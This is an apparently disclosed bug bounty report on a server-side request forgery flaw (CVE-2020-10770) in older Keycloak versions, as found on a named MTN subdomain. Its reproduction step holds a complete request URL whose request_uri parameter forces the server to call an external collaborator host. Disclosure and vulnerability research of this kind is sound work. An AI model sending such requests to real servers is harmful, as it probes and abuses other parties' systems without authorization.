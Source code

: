 # SSRF Keycloak before 13.0.0 - CVE-2020-10770 on https://sponsoredata.mtn.ci

## Report Details
- **Report ID**: 1379080
- **URL**: https://hackerone.com/reports/1379080
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-10-23T03:13:38.720Z
- **Disclosed**: 2024-09-26T01:40:21.753Z

## Reporter
- **Username**: renzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
##Vulnerable Website URL or Application:
https://sponsoredata.mtn.ci

##Description of Security Issue:
A flaw was found in Keycloak before 13.0.0, where it is possible to force the server to call out an unverified URL using the OIDC parameter request_uri. This flaw allows an attacker to use this parameter to execute a Server-side request forgery (SSRF) attack.

##Steps needed to reproduce bug:
1.Using Burp Suite with Burp Collaborator send this request:

* https://sponsoredata.mtn.ci:8443/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://0rs71imlpr20qx2svt6gfrotakga4z.burpcollaborator.net 

{F1490828}

Reference:
* https://nvd.nist.gov/vuln/detail/CVE-2020-10770
* http://packetstormsecurity.com/files/164499/Keycloak-12.0.1-Server-Side-Request-Forgery.html

## Impact

SSRF and External Interaction

## Attachments
- imagem_2021-10-23_001239.png
